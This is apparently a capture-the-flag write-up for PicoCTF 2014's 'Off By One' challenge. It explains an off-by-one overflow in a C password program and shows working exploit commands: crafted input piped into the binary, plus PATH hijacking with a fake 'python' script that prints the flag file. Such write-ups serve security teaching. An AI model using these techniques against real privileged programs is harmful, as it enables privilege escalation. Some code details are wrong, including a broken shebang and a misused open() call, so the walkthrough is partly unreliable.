 ###Off By One

This challenge comes from PicoCTF 2014. We are given a vulnerable C code in the directory ```/home/obo/```. Our goal is to cat ```flag.txt```, which is placed in the same directory.

The obvious mistake that the programmer has made is buffer overflow. Instead of using ```<```, the programmer used ```<=```, reading one additional index.
This vulnerability comes in handy for bypassing the password check. For now, let's talk about the first half of the ```main()```.
```
generate_hex_table();
...
printf("New password: ");
  fflush(stdout);
  read_password(stdin, new_password, sizeof(new_password));
  for (i = 0; i <= strlen(new_password); ++i) {
    int index = hex_table[(unsigned char) new_password[i]];
    if (index == -1) {
      printf("Invalid character: %c\n", new_password[i]);
      exit(1);
    }
    digits[index] = 1;
  }

  for (i = 0; i <= 16; ++i) {
    if (digits[i] == 0) {
      printf("Password is not complex enough: %d\n", i);
      return 1;
    }
  }
```
generate_hex_table() looks as follows
```
void generate_hex_table(void) {
  int i;
  for (i = 0; i <= 256; ++i) {
    hex_table[i] = -1;
  }

  for (i = 0; i <= 10; ++i) {
    hex_table['0' + i] = i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['a' + i] = 10 + i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['A' + i] = 10 + i;
  }

  // I don't know why, but I was getting errors, and this fixes it.
  hex_table[0] = 0;
}
```
What ```generate_hex_table()``` is supposed to do is to generate an int array that is used for password checking. First, all the array elements (including one-unit oveflow) is set to -1 to indicate invalid character.
Then, we see that the ASCII digits 0-9 as well as : that comes after ASCII 9) is set to 0 to 10 respectively, followed by ASCII lowercase alphabets
a to g set to 10 through to 16, followed by ASCII uppercase alphabets A to G set to 0 through to 16. 
The first for-loop of the main() checks whether each character of the string we input falls within these characters, and set digits[] array using 
```index = hex_table[(unsigned char) new_password[i]]```. To pass the second for-loop, all of the elements of digits[] must be set to 1.
So we know that the variable index has to be from 0 o 15. This is easy; we just give all the digits, as well as the alphabets a to f.
The second half of the program is password checking. 
```
  printf("Confirm old password: ");
  fflush(stdout);
  read_password(stdin, confirm_password, sizeof(confirm_password));
  if (strcmp(confirm_password, password) != 0) {
    printf("Old password is incorrect.\n");
    return 1;
  }
```
```confirm_password``` varible is the string we feed to the program. This is checked by the password stored and read from the password file. 
Now, there is no way we can guess or disclose the password: in fact, we don't have to do it. This is where the buffer overflow vulnerability comes in.
It turns out that in the stack, the variable stored after the int digits array is password. And when index = 16, we can set digits[16] = 1, which is actually this password string.
1 is an integer value (4 bytes), in hexadecimal equal to \x01\x00\x00\x00 (reversed for little-endian): this is handy because ASCII 0 follows \x01, which can be recognised as the null character
for this string! Note that to set index[16] = 1, we can supply g as one of the characters in the password, and this is exactly the <= mistake in the generate_hex_table() allows us to do.

Another mistake we can exploit is that the programmer called python to change the password rather than do it within the C code. 
There are a few ways we can exploit this.

-------------1--------------

We can go up to the root directory, make a python file with identical name and from there execute ```obo```. It is important to know that ```set_password.py``` is called relative to the program. Say we make a python file in the root directory with
identical name but has the following content

```
print open("cat /home/obo/flag.txt").read()
```
then this would be the file executed by the program. So, in the root directory, enter the following in the command line
```
python -c 'print "abcdefg123456789\n\x01" ' | /home/obo/obo
```
Note that we have to execute the program this way using Python because we want to pass integer (or hex) 1, not 1 as ASCII character. 

-------------2--------------

In the home directory, we can make a bash script named ```python``` with the following code inside
```
#!bin/sh
cat /home/obo/flag.txt
```
Make this executable and modify the $PATH variable as follows
```
chmod +x python
export PATH=/home_users/pico*****:$PATH
```
We set the path as above because of the precedence - from left to right, in order to precede the actual python path.

Also, in order to use the actual python command, we can call it as python2. So we just have to type in the command line
```
python2 -c "print 'abcdefg123456789\n\x01'"| /home/obo/obo
```

the flag is  ```watch_your_bounds```











